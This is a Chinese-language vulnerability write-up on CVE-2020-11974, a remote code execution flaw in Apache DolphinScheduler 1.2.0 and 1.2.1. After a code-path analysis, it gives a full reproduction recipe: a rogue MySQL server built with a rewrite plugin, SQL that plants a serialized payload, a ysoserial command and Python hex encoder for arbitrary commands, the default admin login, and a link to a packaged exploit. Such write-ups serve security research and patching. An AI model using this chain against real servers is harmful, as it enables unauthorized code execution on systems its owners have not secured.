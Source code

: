 （CVE-2020-11974）Apache DolphinScheduler 远程代码执行漏洞
==========================================================

一、漏洞简介
------------

CVE-2020-11974与mysql
connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过`jdbc connect`参数输入`{“detectCustomCollations”:true，“ autoDeserialize”:true}`
即可在DolphinScheduler 服务器上远程执行代码

二、漏洞影响
------------

Apache DolphinScheduler = 1.2.0、1.2.1

三、复现过程
------------

### 漏洞分析

看到这个poc的时候

    {"detectCustomCollations":true,"autoDeserialize":true,"serverTimezone":"UTC"}

其实我第一反应就是2019年的blackhat的那个利用但我又不太确定，直到我按照其他师傅复现的19年的blackhat的那个漏洞利用方式来复现成功，仔细分析了一波。我们先看这个创建数据库的接口。当我们点击create之后

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId25.png)

进入该controller

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId26.png)

并调用service层的createDataSource方法

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId27.png)

最终调用DriverManager.getConnection进行连接数据库

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId28.png)

我把这段代码拿出来，有没有很熟悉

    connection = DriverManager.getConnection(datasource.getJdbcUrl(), datasource.getUser(), datasource.getPassword());

![11.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId29.png)

（其实也可以直接用其他师傅之前写的Fake\_Mysql\_Server，我这边就不再去试了。）分析到这里还不够，我们回来看看这个Mysql Connector/j的版本号
5.1.34符合其他师傅复现的那个洞的版本号

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId30.png)

除此以外，发现yso的利用链跟commons-collections的版本号也是3.2.2也不符合，一开始想着去寻找其他的利用链路，后来参考了下fnmsd师傅的文章发现，已经找到了利用链，那就是直接复现这个洞就好了

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId31.png)

跟进
DriverManager.getConnection，继续接着上面的连接分析，而当detectCustomCollations设置为true的时候com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId32.png)

跟进后

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId33.png)

最终进入到getObject

![9.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId34.png)

最终反序列化我们传入的payload

![10.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId35.png)

### 漏洞复现

-   配置mysql

#### 1. 安装rewrite插件

以下安装方式任选其一

##### 【任选】编译插件

下载mysql-5.7.28源码到/root/mysql-5.7.28，`https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz`

       gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices

##### 【任选】直接使用本git仓库中的rewrite\_example.so

复制rewrite\_example.so到/usr/lib/mysql/plugin/rewrite\_example.so即可。

> rewrite\_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

#### 2. 安装插件，建表，插入二进制数据

安装插件

    INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';

建表

1.  创建数据库：codeplutos，请自行创建
2.  建表sql如下

```{=html}
<!-- -->
```
    SET NAMES utf8mb4;
    SET FOREIGN_KEY_CHECKS = 0;

    -- ----------------------------
    -- Table structure for payload
    -- ----------------------------
    DROP TABLE IF EXISTS `payload`;
    CREATE TABLE `payload` (
      `COLLATION_NAME` varchar(255) DEFAULT NULL,
      `CHARACTER_SET_NAME` blob,
      `ID` int(5) DEFAULT NULL,
      `IS_DEFAULT` varchar(255) DEFAULT NULL,
      `IS_COMPILED` varchar(255) DEFAULT NULL,
      `SORTLEN` int(5) DEFAULT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=utf8;

    -- ----------------------------
    -- Records of payload
    -- ----------------------------
    BEGIN;
    INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
    COMMIT;

    SET FOREIGN_KEY_CHECKS = 1;

生成payload

首先ysoserial生成payload（我这里直接用fnmsd师傅改的改的ysoserial.jar)

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRE8u20 "touch /tmp/1.txt" > t

`touch /tmp/1.txt`
这个替换成自己想要执行的命令，在同个目录下用这个py脚本进行转码生成payload字符

    import os
    import binascii
    with open("t", 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()))
            print payload_content

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId41.png)

写入数据库

    set @a=0x这里修改为你的payload；
    update codeplutos.payload set character_set_name = @a;

默认用户名密码登陆

`admin/dolphinscheduler123`

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId42.png)

点击添加数据库

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId43.png)

填入信息，点击create（而不是connect，我在这里踩过坑）

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId44.png)

复现成功，创建了一个1.txt

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11974)ApacheDolphinScheduler远程代码执行漏洞/media/rId45.png)

#### 上述中的poc下载地址

`https://download.0-sec.org/Web安全/Apache DolphinScheduler/CVE-2020-11974/DolphinschedulerExploit-master.zip`

参考链接
--------

> https://xz.aliyun.com/t/8304
